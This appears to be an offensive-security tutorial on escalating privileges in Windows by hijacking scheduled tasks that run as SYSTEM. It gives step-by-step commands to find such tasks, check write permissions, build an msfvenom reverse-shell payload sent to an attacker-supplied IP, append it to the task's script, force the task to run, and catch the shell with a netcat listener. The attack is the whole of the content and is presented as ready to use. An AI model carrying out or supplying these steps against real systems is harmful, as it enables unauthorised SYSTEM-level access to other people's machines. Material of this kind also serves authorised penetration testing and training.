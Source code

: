 
###  What is Task Scheduler?
**Task Scheduler** is a built-in Windows tool that automatically runs programs or scripts at scheduled times.
Sometimes, a high-privileged user (like SYSTEM or Administrator) sets up a scheduled task — if you can **modify the script it runs**, you can escalate your privileges.

Find scheduled tasks run by **SYSTEM or Admin**, then check if you can **edit the script** that task runs.

## **Step-by-Step Exploitation**
### **1. Find Vulnerable Scheduled Tasks**
```
schtasks /query /fo LIST /v > tasks.txt
type tasks.txt | findstr /i "system tasktorun"
```
*Alternative (PowerShell):*
```
Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" } | Format-Table -AutoSize
```
 **Look for:**
- Tasks running as **SYSTEM or Administrator**
- Scripts/executables in **writable locations**
### **2. Check File Permissions**
```
accesschk.exe /accepteula -quv "C:\Path\To\TaskScript.ps1"
```
 You need **FILE_WRITE_DATA** or **FILE_ALL_ACCESS**
### **3. Create Malicious Payload**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```
Upload to target machine.
### **4. Hijack the Task**
#### **Option A: Script Replacement**
```
echo START /B C:\Temp\evil.exe >> "C:\Path\To\TaskScript.bat"
```
#### **Option B: DLL Hijacking**
If task uses a program that loads DLLs from writable locations.
### **5. Wait for Execution**
Tasks often run:
- At specific times (check **`schtasks`** output)
- On system events (logon, idle, etc.)
*Force run if you have permissions:*

```
schtasks /run /tn "TaskName"
```
### **6. Catch the Shell**
```
nc -nvlp 4444
```

 You should get a shell with the task's privileges (often SYSTEM)!
